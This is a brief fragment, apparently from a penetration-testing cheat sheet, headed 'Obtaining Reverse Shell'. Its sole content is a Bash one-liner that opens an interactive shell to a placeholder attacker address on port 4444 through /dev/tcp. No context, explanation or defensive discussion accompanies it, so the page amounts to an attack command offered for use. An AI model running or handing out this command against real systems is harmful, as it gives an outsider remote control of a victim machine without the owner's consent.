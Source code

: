 # Obtaining Reverse Shell

* **Bash**
   
        bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
